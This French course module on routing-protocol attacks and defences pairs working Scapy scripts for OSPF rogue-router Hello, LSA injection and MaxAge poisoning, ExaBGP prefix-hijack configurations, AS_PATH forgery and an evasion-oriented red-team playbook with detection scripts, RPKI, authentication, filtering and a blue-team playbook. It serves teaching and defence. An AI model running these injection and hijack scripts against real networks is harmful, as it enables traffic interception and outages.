

# Manipulation des protocoles de routage

## Objectifs du cours

Ce cours explore les techniques offensives et defensives liees a la manipulation des protocoles de routage. Comme tout système base sur la confiance, les protocoles de routage peuvent etre exploites par des attaquants pour intercepter, rediriger ou perturber le trafic réseau.

Competences visees :
- Comprendre les attaques par injection de routes OSPF (rogue router)
- Maitriser les techniques de BGP hijacking et manipulation d'AS_PATH
- Detecter et contrer ces attaques
- Appliquer ces connaissances en contexte Red Team et Blue Team

---

## Glossaire

### Termes d'attaque generaux

| Terme | Description |
|-------|-------------|
| **Route Injection** | Injection de fausses routes dans un protocole de routage |
| **Rogue Router** | Routeur non autorise injecte dans un domaine de routage |
| **Route Hijacking** | Detournement de routes pour intercepter le trafic |
| **Blackhole** | Route vers une destination inexistante (trafic perdu) |
| **Traffic Interception** | Interception du trafic via manipulation de routes |
| **Man-in-the-Middle (MitM)** | Attaque d'interception et potentielle modification du trafic |
| **Denial of Routing** | Perturbation du routage causant un deni de service |

### Attaques OSPF

| Terme | Description |
|-------|-------------|
| **LSA Injection** | Injection de faux Link-State Advertisements |
| **LSA Spoofing** | Usurpation de LSAs d'un routeur legitime |
| **Neighbor Spoofing** | Usurpation d'identite d'un voisin OSPF |
| **DR/BDR Manipulation** | Manipulation de l'election DR/BDR |
| **Area Injection** | Injection de routes inter-aires malveillantes |
| **MaxAge Attack** | Envoi de LSAs avec MaxAge pour supprimer des routes |
| **Seq++ Attack** | Incrementation du numero de sequence pour ecraser des LSAs |

### Attaques BGP

| Terme | Description |
|-------|-------------|
| **Prefix Hijacking** | Annonce d'un prefixe appartenant a un autre AS |
| **Subprefix Hijacking** | Annonce d'un prefixe plus spécifique pour detourner le trafic |
| **AS_PATH Manipulation** | Falsification du chemin d'AS pour paraitre legitime |
| **AS_PATH Prepending** | Ajout d'AS pour influencer la selection de route |
| **Origin AS Spoofing** | Usurpation de l'AS d'origine d'un prefixe |
| **Route Leak** | Fuite non autorisee de routes vers des AS tiers |
| **BGP Session Hijacking** | Prise de contrôle d'une session BGP etablie |

### Outils offensifs

| Outil | Description |
|-------|-------------|
| **Scapy** | Framework Python pour la creation de paquets personnalises |
| **ExaBGP** | Implementation BGP en Python pour l'injection de routes |
| **FRRouting (FRR)** | Suite de routage open source |
| **BIRD** | Daemon de routage BGP/OSPF |
| **Loki** | Outil d'attaque sur protocoles de routage |
| **Yersinia** | Framework d'attaque Layer 2/3 |

### Outils defensifs

| Outil | Description |
|-------|-------------|
| **RPKI** | Resource Public Key Infrastructure pour BGP |
| **ROA** | Route Origin Authorization |
| **BGPStream** | Detection d'anomalies BGP en temps reel |
| **RIPE RIS** | Service de monitoring BGP |
| **RouteViews** | Archive des tables BGP mondiales |
| **IRR** | Internet Routing Registry |

### Termes MITRE ATT&CK

| ID | Technique |
|----|-----------|
| **T1557** | Adversary-in-the-Middle |
| **T1583.006** | Acquire Infrastructure: BGP Hijacking |
| **T1565** | Data Manipulation |
| **T1498** | Network Denial of Service |

---

## Introduction aux attaques sur les protocoles de routage

### Pourquoi les protocoles de routage sont vulnerables

Les protocoles de routage ont ete concus avec l'hypothese que tous les participants sont de confiance :

| Protocole | Hypothese de confiance | Vulnerabilite |
|-----------|------------------------|---------------|
| **OSPF** | Tous les routeurs de l'aire sont legitimes | Pas de validation d'identite par defaut |
| **BGP** | Tous les AS cooperent honnetement | Pas de verification des annonces |
| **RIP** | Tous les voisins sont de confiance | Aucune authentification par defaut |
| **EIGRP** | Reseau d'entreprise ferme | Authentification optionnelle |

### Objectifs d'un attaquant

| Objectif | Technique | Impact |
|----------|-----------|--------|
| **Interception** | Redirection du trafic via l'attaquant | Espionnage, vol de donnees |
| **Modification** | MitM avec alteration des paquets | Injection de malware, falsification |
| **Disruption** | Blackhole, route flapping | Deni de service |
| **Reconnaissance** | Analyse du trafic redirige | Cartographie du réseau |

---

## Attaques OSPF : rogue router

### Scenario d'attaque



**Topologie :**
- Reseau legitime : ROUTER-01, ROUTER-02, ROUTER-03, PC1, PC2
- Attaquant : ROGUE-ROUTER connecte a ROUTER-01, ROGUE-PC pour l'interception

### Deroulement de l'attaque

```
1. RECONNAISSANCE
   - L'attaquant identifie le domaine OSPF (aire, type de réseau)
   - Capture de paquets OSPF Hello (Wireshark, tcpdump)
   - Identification des Router IDs et des réseaux annonces

2. CONNEXION
   - L'attaquant connecte son équipement au réseau
   - Configuration OSPF avec les memes paramètres (aire, authentification)

3. ETABLISSEMENT DE VOISINAGE
   - Envoi de paquets Hello OSPF
   - Formation d'adjacence avec les routeurs legitimes
   - Echange de la LSDB

4. INJECTION DE ROUTES
   - Annonce de fausses routes avec des metriques faibles
   - Exemple : "Je suis le meilleur chemin vers 10.0.2.0/30"

5. INTERCEPTION
   - Le trafic est redirige vers le ROGUE-ROUTER
   - L'attaquant peut intercepter, modifier ou bloquer le trafic
```

### Implementation avec Scapy

```python
from scapy.all import *
from scapy.contrib.ospf import *

# Configuration de l'attaquant
ATTACKER_IP = "10.0.0.7"
ATTACKER_RID = "10.0.0.7"
OSPF_AREA = "0.0.0.0"
MULTICAST_OSPF = "224.0.0.5"

# Crafting d'un paquet OSPF Hello
ospf_hello = IP(src=ATTACKER_IP, dst=MULTICAST_OSPF, ttl=1) / \
             OSPF_Hdr(
                 version=2,
                 type=1,  # Hello
                 src=ATTACKER_RID,
                 area=OSPF_AREA
             ) / \
             OSPF_Hello(
                 mask="255.255.255.0",
                 hellointerval=10,
                 deadinterval=40,
                 router="0.0.0.0",
                 backup="0.0.0.0"
             )

# Envoi du paquet
send(ospf_hello, verbose=True)
print("[*] OSPF Hello envoye")
```

### Injection de LSA Type 1 (Router LSA)

```python
from scapy.all import *
from scapy.contrib.ospf import *

# LSA Type 1 malveillant
lsa_router = OSPF_Router_LSA(
    type=1,
    id=ATTACKER_RID,
    adrouter=ATTACKER_RID,
    seq=0x80000001,
    linkcount=1,
    linklist=[
        OSPF_Link(
            id="10.0.2.0",
            data="255.255.255.252",
            type=3,  # Stub network
            metric=1  # Cout tres faible pour etre préféré
        )
    ]
)

# Encapsulation dans un LSU (Link State Update)
ospf_lsu = IP(src=ATTACKER_IP, dst=MULTICAST_OSPF, ttl=1) / \
           OSPF_Hdr(
               version=2,
               type=4,  # LS Update
               src=ATTACKER_RID,
               area=OSPF_AREA
           ) / \
           OSPF_LSUpd(
               lsacount=1,
               lsalist=[lsa_router]
           )

send(ospf_lsu)
print("[*] LSA Router injecte")
```

### Attaque MaxAge

L'attaque MaxAge consiste a envoyer des LSAs avec l'age maximum (3600 secondes) pour les faire expirer immediatement :

```python
# LSA avec MaxAge pour supprimer une route
lsa_poison = OSPF_Router_LSA(
    type=1,
    id="10.0.0.1",  # Router ID de la victime
    adrouter="10.0.0.1",
    age=3600,  # MaxAge = expiration immediate
    seq=0x80000010  # Sequence superieure
)
```

---

## Attaques BGP : hijacking et manipulation

### Types de BGP Hijacking

| Type | Description | Detection |
|------|-------------|-----------|
| **Exact Prefix** | Annonce du meme prefixe qu'un AS legitime | Origine AS differente |
| **More Specific** | Annonce d'un sous-prefixe plus precis | Nouveau prefixe plus spécifique |
| **AS_PATH Poisoning** | Injection d'AS dans le chemin | AS_PATH anormal |
| **Origin AS Spoofing** | Usurpation de l'AS d'origine | ROA invalide |

### Scenario : Hijacking de prefixe

```
Situation normale :
AS 65001 (legitime) annonce 203.0.113.0/24
Tout Internet route vers AS 65001

Attaque - Exact Prefix Hijack :
AS 65999 (attaquant) annonce aussi 203.0.113.0/24
Certains AS routent vers 65999 (selon leur politique)

Attaque - More Specific Prefix :
AS 65999 annonce 203.0.113.0/25 et 203.0.113.128/25
TOUT Internet préféré les routes plus spécifiques
Tout le trafic vers 203.0.113.0/24 va vers l'attaquant
```

### Implementation avec ExaBGP

**Configuration ExaBGP (attaquant) :**

```ini
# exabgp.conf
process announce-routes {
    run /usr/bin/python3 /etc/exabgp/announce.py;
    encoder json;
}

neighbor 10.0.0.1 {
    router-id 10.0.0.99;
    local-address 10.0.0.99;
    local-as 65999;
    peer-as 65001;

    family {
        ipv4 unicast;
    }
}
```

**Script d'annonce Python :**

```python
#!/usr/bin/env python3
# announce.py

import sys
import time

# Annonce du prefixe hijacke
messages = [
    # Hijack exact prefix
    'announce route 203.0.113.0/24 next-hop self',

    # Ou more specific (plus efficace)
    'announce route 203.0.113.0/25 next-hop self',
    'announce route 203.0.113.128/25 next-hop self',
]

for msg in messages:
    sys.stdout.write(msg + '\n')
    sys.stdout.flush()
    time.sleep(1)

# Maintenir la session
while True:
    time.sleep(60)
```

### AS_PATH Manipulation

Pour paraitre legitime, l'attaquant peut forger un AS_PATH credible :

```python
# Faux AS_PATH incluant des AS de transit connus
fake_path = "65999 3356 1299 65001"
# 3356 = Lumen, 1299 = Telia (grands transits)

# Avec ExaBGP
announce = f'announce route 203.0.113.0/24 next-hop self as-path [{fake_path}]'
```

### Interception vs Blackhole

**Blackhole (simple) :**
- L'attaquant annonce le prefixe
- Le trafic arrive chez lui et est drop
- Resultat : DoS

**Interception (avance) :**
- L'attaquant doit renvoyer le trafic vers la destination legitime
- Necessite un chemin alternatif (tunnel, autre peering)
- Permet le MitM

```
Victime                 Attaquant               Destination
   │                        │                        │
   │──── Trafic ───────────>│                        │
   │                        │──── Tunnel/Alt ───────>│
   │                        │<────── Reponse ────────│
   │<─── Trafic modifie ────│                        │
```

---

## Cas celebres de BGP Hijacking

### 2008 - Pakistan Telecom vs YouTube

| Element | Detail |
|---------|--------|
| **Attaquant** | Pakistan Telecom (AS 17557) |
| **Victime** | YouTube (208.65.152.0/22) |
| **Methode** | Annonce de 208.65.153.0/24 (more specific) |
| **Impact** | YouTube inaccessible mondialement pendant 2 heures |
| **Cause** | Tentative de censure locale propagee par erreur |

### 2018 - Amazon Route 53 Hijack

| Element | Detail |
|---------|--------|
| **Attaquant** | Inconnu (via eNet Inc, AS 10297) |
| **Victime** | Amazon Route 53 DNS |
| **Methode** | Hijack de prefixes DNS Amazon |
| **Impact** | Vol de ~$150,000 en cryptomonnaie (MyEtherWallet) |
| **Technique** | Redirection DNS vers faux site avec certificat valide |

### 2022 - KLAYswap (Coree du Sud)

| Element | Detail |
|---------|--------|
| **Attaquant** | Inconnu |
| **Victime** | KLAYswap (plateforme crypto coreenne) |
| **Methode** | BGP hijack + certificat SSL frauduleux |
| **Impact** | Vol de $1.9 million en cryptomonnaie |
| **Technique** | Injection de JavaScript malveillant |

### Timeline d'une attaque BGP typique

```
T+0:00  - Attaquant configure son routeur BGP
T+0:01  - Annonce du prefixe hijacke
T+0:05  - Propagation aux peers directs
T+0:15  - Propagation mondiale (selon topologie)
T+0:20  - Trafic commence a etre redirige
T+2:00  - Detection par les outils de monitoring
T+4:00  - Reaction des operateurs
T+6:00  - Retrait de l'annonce malveillante
```

---

## Detection des attaques

### Detection OSPF

**Indicateurs de compromission :**

| Indicateur | Methode de detection |
|------------|----------------------|
| Nouveau voisin inattendu | `show ip ospf neighbor` + alertes |
| Changement de routes | Monitoring de la table de routage |
| LSA anormaux | Analyse de la LSDB |
| Flapping de routes | Logs et SNMP traps |
| Cout anormal | Audit des metriques |

**Commandes de verification Cisco :**

```cisco
! Verifier les voisins OSPF
show ip ospf neighbor

! Voir la base de donnees
show ip ospf database

! Verifier les routes
show ip route ospf

! Debug (attention en production)
debug ip ospf adj
debug ip ospf lsa-generation
```

**Script de detection Python :**

```python
from scapy.all import *
from scapy.contrib.ospf import *

known_routers = ["10.0.0.1", "10.0.0.2", "10.0.0.3"]

def detect_rogue(pkt):
    if OSPF_Hdr in pkt:
        src = pkt[OSPF_Hdr].src
        if src not in known_routers:
            print(f"[ALERT] Rogue OSPF router detected: {src}")
            # Envoyer alerte SIEM/SOC

sniff(filter="proto ospf", prn=detect_rogue)
```

### Detection BGP

**Outils de monitoring :**

| Outil | Usage |
|-------|-------|
| **BGPStream** | Detection temps reel d'anomalies |
| **RIPE RIS** | Looking glass et historique |
| **RouteViews** | Archives des tables BGP |
| **BGPalerter** | Alertes sur changements de routes |
| **Cloudflare Radar** | Visualisation des anomalies |

**Verification RPKI :**

```bash
# Verifier le statut RPKI d'un prefixe
rpki-client -v 203.0.113.0/24

# Resultat possible :
# Valid   - ROA existe et correspond
# Invalid - ROA existe mais ne correspond pas
# Unknown - Pas de ROA
```

**Script de monitoring BGP :**

```python
import pybgpstream

# Detecter les hijacks sur un prefixe
stream = pybgpstream.BGPStream(
    project="ris-live",
    record_type="updates",
    filter="prefix more 203.0.113.0/24"
)

for elem in stream:
    prefix = elem.fields["prefix"]
    as_path = elem.fields.get("as-path", "")
    origin_as = as_path.split()[-1] if as_path else "unknown"

    if origin_as != "65001":  # AS legitime attendu
        print(f"[ALERT] Potential hijack: {prefix} announced by AS {origin_as}")
```

---

## Strategies de defense

### Protection OSPF

#### 1. Authentification OSPF

```cisco
! MD5 (legacy mais repandu)
interface GigabitEthernet0/0
 ip ospf authentication message-digest
 ip ospf message-digest-key 1 md5 S3cr3tK3y!

! SHA (recommande)
key chain OSPF-AUTH
 key 1
  key-string S3cr3tK3y!
  cryptographic-algorithm hmac-sha-256

interface GigabitEthernet0/0
 ip ospf authentication key-chain OSPF-AUTH
```

#### 2. Passive Interface

```cisco
router ospf 1
 passive-interface default
 no passive-interface GigabitEthernet0/0
 no passive-interface GigabitEthernet0/1
```

#### 3. Filtrage de routes

```cisco
! Prefix-list pour filtrer les routes injectees
ip prefix-list OSPF-FILTER deny 10.0.0.0/8 le 32
ip prefix-list OSPF-FILTER permit 0.0.0.0/0 le 32

router ospf 1
 distribute-list prefix OSPF-FILTER in
```

#### 4. Utilisation d'aires stub

```cisco
! Limiter l'injection de routes externes
router ospf 1
 area 1 stub no-summary
```

### Protection BGP

#### 1. RPKI (Resource Public Key Infrastructure)

```cisco
! Configuration RPKI sur Cisco IOS-XR
router bgp 65001
 rpki server 10.0.0.100
  transport tcp port 8282
  refresh-time 300

 address-family ipv4 unicast
  bgp origin-validation enable
```

#### 2. Filtrage de prefixes

```cisco
! Bogon filter
ip prefix-list BOGON-FILTER deny 0.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 10.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 127.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 169.254.0.0/16 le 32
ip prefix-list BOGON-FILTER deny 172.16.0.0/12 le 32
ip prefix-list BOGON-FILTER deny 192.168.0.0/16 le 32
ip prefix-list BOGON-FILTER deny 224.0.0.0/4 le 32
ip prefix-list BOGON-FILTER permit 0.0.0.0/0 le 24

router bgp 65001
 neighbor 10.0.0.2 prefix-list BOGON-FILTER in
```

#### 3. Maximum Prefix

```cisco
router bgp 65001
 neighbor 10.0.0.2 maximum-prefix 1000 80 restart 5
```

#### 4. AS_PATH Filtering

```cisco
! Rejeter les AS prives sur Internet
ip as-path access-list 10 deny _64[5-9][0-9][0-9]_
ip as-path access-list 10 deny _65[0-4][0-9][0-9]_
ip as-path access-list 10 deny _65[5][0-2][0-9]_
ip as-path access-list 10 deny _6553[0-5]_
ip as-path access-list 10 permit .*

router bgp 65001
 neighbor 10.0.0.2 filter-list 10 in
```

#### 5. TCP-AO (Authentication Option)

```cisco
! Plus securise que MD5
router bgp 65001
 neighbor 10.0.0.2 ao KEYCHAIN-BGP include-tcp-options
```

---

## Playbook red team

### Methodologie d'attaque

```
1. RECONNAISSANCE
   [ ] Identifier les protocoles de routage utilises
   [ ] Capturer le trafic de routage (Hello, Updates)
   [ ] Identifier les aires/AS et les paramètres
   [ ] Verifier l'authentification

2. PREPARATION
   [ ] Configurer l'équipement d'attaque
   [ ] Preparer les routes a injecter
   [ ] Configurer le forwarding si MitM

3. EXECUTION
   [ ] Etablir la session/adjacence
   [ ] Injecter les routes malveillantes
   [ ] Verifier la propagation

4. POST-EXPLOITATION
   [ ] Intercepter le trafic cible
   [ ] Maintenir l'acces
   [ ] Documenter l'impact

5. NETTOYAGE
   [ ] Retirer les routes injectees
   [ ] Terminer les sessions
   [ ] Effacer les traces
```

### Techniques d'evasion

| Technique | Description |
|-----------|-------------|
| **Injection ciblee** | Annoncer uniquement les prefixes nécessaires |
| **TTL manipulation** | Eviter la detection par TTL analysis |
| **Timing** | Attaquer pendant les heures creuses |
| **AS_PATH credible** | Utiliser des chemins realistes |
| **Cleanup rapide** | Retirer les routes apres exfiltration |

---

## Playbook blue team

### Detection et reponse

```
1. PREPARATION
   [ ] Deployer RPKI avec ROAs
   [ ] Configurer l'authentification (MD5/SHA)
   [ ] Mettre en place le monitoring (BGPStream, alertes)
   [ ] Documenter les routes legitimes

2. DETECTION
   [ ] Alertes sur nouveaux voisins OSPF
   [ ] Alertes sur annonces BGP inattendues
   [ ] Analyse des changements de routes
   [ ] Correlation avec autres événements

3. ANALYSE
   [ ] Identifier la source de l'attaque
   [ ] Evaluer l'impact (trafic affecte)
   [ ] Determiner la méthode d'attaque
   [ ] Collecter les preuves

4. CONFINEMENT
   [ ] Filtrer les routes malveillantes
   [ ] Isoler les segments affectes
   [ ] Contacter les upstream si BGP

5. REMEDIATION
   [ ] Corriger les configurations
   [ ] Renforcer l'authentification
   [ ] Mettre a jour les filtres
   [ ] Documenter l'incident
```

---

## Ressources

| Ressource | Description |
|-----------|-------------|
| [MITRE ATT&CK T1583.006](https://attack.mitre.org/techniques/T1583/006/) | BGP Hijacking |
| [Scapy OSPF](https://scapy.readthedocs.io/en/latest/layers/ospf.html) | Documentation Scapy OSPF |
| [ExaBGP](https://github.com/Exa-Networks/exabgp) | Implementation BGP Python |
| [BGPStream](https://bgpstream.caida.org/) | Monitoring BGP temps reel |
| [RPKI Documentation](https://rpki.readthedocs.io/) | Guide de deploiement RPKI |
| [MANRS](https://www.manrs.org/) | Bonnes pratiques de sécurité routage |

---

## Labs TryHackMe

| Room | Description | Lien |
|------|-------------|------|
| **Intro to Networking** | Fondamentaux réseau | https://tryhackme.com/room/introtonetworking |
| **Wireshark: The Basics** | Capture et analyse de paquets | https://tryhackme.com/room/wiresharkthebasics |
| **Network Services** | Services et protocoles réseau | https://tryhackme.com/room/networkservices |
| **Attacking and Defending AWS** | Concepts de routage cloud | https://tryhackme.com/room/introtocloudpentest |

> **Note** : Les attaques sur les protocoles de routage sont des techniques avancees. Pour la pratique :
> - Utilisez un lab isolé (GNS3, EVE-NG)
> - Les CTF specialises en infrastructure (DEFCON Router Hacking Village) proposent des challenges pertinents
> - Consultez le framework MITRE ATT&CK pour le contexte offensif
